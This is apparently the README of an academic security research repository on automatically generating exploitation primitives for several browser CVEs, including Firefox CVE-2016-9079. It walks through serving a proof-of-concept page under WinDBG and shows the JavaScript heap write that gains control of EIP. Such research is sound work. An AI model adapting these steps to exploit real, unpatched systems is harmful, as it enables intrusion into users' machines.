 # PrimGen

In many cases, the given input which triggers a vulnerability and crashes a process 
does not enter an exploitable state. In our paper we discuss on what we can automate 
in a scalable fashion. How challenging can it be than tackling the problem for browsers? 

This repository contains data we presented in our paper:

https://www.syssec.ruhr-uni-bochum.de/research/publications/TABE/

Code will follow :)

# Structure

```
  |=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=|
  |     CVE      | binary name | version info   |
  |=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=|
  |CVE-2014-0322 | mshtml.dll  | 10.0.9200.16384| 
  |CVE-2014-1513 | mozjs.dll   | 27.0           |
  |CVE-2016-1960 | xul.dll     | 44.0.2.5884    |    
  |CVE-2016-2819 | xul.dll     | 46.0.1.5966    |    
  |CVE-2016-9079 | xul.dll     | 50.0.1.6171    |    
  |CVE-2014-3176 | chrome      | 35.0.1916.153  | 
  |=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=|
```

Each CVE folder contains the vulnerable dll file and *EPTs (Exploitation Primitive Trigger)* (see paper) which drives the execution into desired sinks.

The start/end parts of the automatically generated code are marked as follows:

```
//--- GENERATED PART START ---
.... generated js code .... 
//--- GENERATED PART END ---
```

# Example 

== Verifying EPTs for CVE-2016-9079 ==

== Tested on Windows 10 (x64) in VirtualBox ==
== Target: Mozilla Firefox 50.0.1 32-bit ==

Test with EPT:

&nbsp; &nbsp; *suc_poc_xul_0.html* 
>found in *results/CVE-2016-9079/suc_poc_xul_0.html*

This should drive the exeuction into an *indirect call* which we control.


#### 1) Install target
```
    https://ftp.mozilla.org/pub/firefox/releases/50.0 1/win32/en-US/Firefox%20Setup%2050.0.1.exe
```
#### 2) Install WinDBG
```
    https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/
```

- NOTE: use the *"As a standalone tool set"* method. This saves time and space.

#### 3) Open the target in WinDBG:
- Start WinDbg (X64) (just type windbg in the windows 10 search bar, and
WinDbg (X64) should appear)
- In WinDbg: 
```
   File -> Open Executable -> Choose firefox.exe in the folder
   where it was installed
```
- NOTE: check also the line *"Debug child processes also"*
- Click the *"Open"* button
- Ppress F5 until Firefox appears (during execution if you see *"int 3"* or
*"ret"* in the debugger press F5)

#### 4) Serve the EPTs via python's build in server (or choose a method of your liking):

```
   cd into "results/CVE-2016-9079"
   start the server: 
      $ python -m SimpleHTTPServer 8080
```

#### 5) Check an EPT in target:
- Browse to your server address and open *suc_poc_xul_0.html* (for example)

- The browser should freeze (and crash) and you should see a similar
output like the following in the debugger window:

```
(634.6e0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols
for C:\Program Files (x86)\Mozilla_Firefox_x86_50.0.1\xul.dll -
30300220 0000            add     byte ptr [eax],al
ds:002b:30302f74=00
```

&#10233; EIP gets set to **0x30300220** and the data at that address is interpreted 
as code (crash due to DEP violation).
The **GENERATED PART** in the html file sets the memory such that a path is executed until EIP (the wanted *exploitation primitive*) is set.

Note the last line in GENERATED PART of *suc_poc_xul_0.html*:

```javascript
heap_block[offset/4 + 0x30ac/4] = object_target_address +0x220; 
// 0x20acL -> 0x30acL (0x138L)
```

is the value which sets EIP.

In the html file you can see that
```javascript
object_target_address = 0x30300000
```

> object_target_address + 0x220 = 0x30300220

We successfully drive the execution into this primitive with an address
of our choice. In this case we set it back into an object field.

You can change the line (54) to

```javascript
heap_block[offset/4 + 0x30ac/4] = 0x41414141
```
to get the value 0x41414141 into EIP.

Then the debugger should crash with EIP set to 0x41414141.